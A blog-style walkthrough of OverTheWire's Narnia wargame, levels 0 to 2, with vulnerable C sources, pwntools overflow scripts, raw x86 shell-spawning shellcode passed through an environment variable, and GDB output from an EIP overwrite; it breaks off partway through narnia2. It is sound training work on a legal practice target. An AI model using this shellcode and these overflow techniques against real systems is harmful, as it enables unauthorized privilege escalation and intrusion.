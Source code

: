 ```yaml
---
layout: post
title: "OverTheWire Narnia"
date: 2024-08-19 +0200
categories: jekyll update
---
```

[https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/) 🦁
```sh
ssh narnia0@narnia.labs.overthewire.org -p 2226
```

I'm using [pwntools](https://github.com/Gallopsled/pwntools) in a Kali Linux VM to make it easier to solve the levels. OverTheWire also seems to include python3 and pwntools.

## Observations
There is a `/narnia` folder and the passwords are in `/etc/narnia_pass`. The levels also include C source code.
```sh
find / -type f -name '*narnia*' 2> /dev/null
/etc/issue.narnia
/etc/issue.narnia.fail
/etc/issue.narnia.localhost
/etc/narnia_pass/narnia0
/etc/narnia_pass/narnia1
/etc/narnia_pass/narnia2
/etc/narnia_pass/narnia3
/etc/narnia_pass/narnia4
/etc/narnia_pass/narnia5
/etc/narnia_pass/narnia6
/etc/narnia_pass/narnia7
/etc/narnia_pass/narnia8
/etc/narnia_pass/narnia9
/etc/ssh/sshd_config.d/narnia.conf
/narnia/narnia0
/narnia/narnia0.c
/narnia/narnia1
/narnia/narnia1.c
/narnia/narnia2
/narnia/narnia2.c
/narnia/narnia3
/narnia/narnia3.c
/narnia/narnia4
/narnia/narnia4.c
/narnia/narnia5
/narnia/narnia5.c
/narnia/narnia6
/narnia/narnia6.c
/narnia/narnia7
/narnia/narnia7.c
/narnia/narnia8
/narnia/narnia8.c

ls /etc/narnia_pass/ -la
-r--------   1 narnia0 narnia0     8 Jul 17 15:58 narnia0
-r--------   1 narnia1 narnia1    11 Jul 17 15:58 narnia1
-r--------   1 narnia2 narnia2    11 Jul 17 15:58 narnia2
-r--------   1 narnia3 narnia3    11 Jul 17 15:58 narnia3
-r--------   1 narnia4 narnia4    11 Jul 17 15:58 narnia4
-r--------   1 narnia5 narnia5    11 Jul 17 15:58 narnia5
-r--------   1 narnia6 narnia6    11 Jul 17 15:58 narnia6
-r--------   1 narnia7 narnia7    11 Jul 17 15:58 narnia7
-r--------   1 narnia8 narnia8    11 Jul 17 15:58 narnia8
-r--------   1 narnia9 narnia9    11 Jul 17 15:58 narnia9
```

## narnia0
`cat /narnia/narnia0.c`
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

The binary reads the input and we somehow have to change `val` from `0x41414141` to `0xdeadbeef` to pass the check.
The issue is the buffer is 20 bytes but `scanf()` is reading 24 characters into it. It also has some helpful printf messsages.

To use pwntools I can put the python scripts in folder in `/tmp`. The `val` variable on the stack gets overwritten with `BCDE (0x45444342)` so that works.
```py
from pwn import *
s = "A" * 20
s += "BCDE"
p = process('/narnia/narnia0')
s1 = p.recvline()
p.sendline(s)
p.interactive()
```
```
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABCDE
val: 0x45444342
WAY OFF!!!!
```

Now we we should be able overwrite it with `0xdeadbeef` by packing it into a 32 bit integer.
```py
from pwn import *
s = b"A" * 20
s += p32(0xdeadbeef)
p = process('/narnia/narnia0')
s1 = p.recvline()
p.sendline(s)
p.interactive()
```
```
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ\xde
val: 0xdeadbeef
$ whoami
narnia1

$ cat /etc/narnia_pass/narnia1
```

## narnia1
`cat /narnia/narnia1.c`
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

It's looking for an egg 🥚 environment variable so we need to define it at least. Let's try printing the password with cat.
```sh
export EGG="cat /etc/narnia_pass/narnia1"

/narnia/narnia1
Trying to execute EGG!
Segmentation fault (core dumped)
```
Apparently it directly executes a function so we need some kind of [shellcode](https://www.exploit-db.com/exploits/44594). This popped the shell with `execve("/bin/sh")` but the uid was still 14001 (narnia1). I noticed there were multiple people in the OTW discord having the same problem.
```py
export EGG=$(python3 -c ex'import sys; sys.stdout.buffer.write(b"\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80")')
/narnia/narnia1
Trying to execute EGG!
$ cat /etc/narnia_pass/narnia2
cat: /etc/narnia_pass/narnia2: Permission denied

$ whoami
narnia1

$ id
uid=14001(narnia1) gid=14001(narnia1) groups=14001(narnia1)
```

The narnia0 level hints this with the `setreuid(geteuid(),geteuid())` call, which is included in this [shellcode](https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner).
Note that python3 has some [issues](https://stackoverflow.com/questions/39424833/outputting-hex-values-in-python3) with handling hex strings which requires calling `sys.stdout.buffer.write` instead of `print`.
```py
export EGG=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80")')
/narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2

$ id
uid=14002(narnia2) gid=14001(narnia1) groups=14001(narnia1)

$ cat /etc/narnia_pass/narnia2
```

## narnia2
`cat /narnia/narnia2.c`
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
```py
/narnia/narnia2 $(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 132 + b"BBBB")')
```
Let's debug the buffer overflow; `eip` gets overwritten with BBBB so we should execute some shellcode and also call `setreuid()` to narnia3's uid.
```sh
gdb /narnia/narnia2
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 132 + b"BBBB")')
# Program received signal SIGSEGV, Segmentation fault.
# 0x42424242 in ?? ()
```
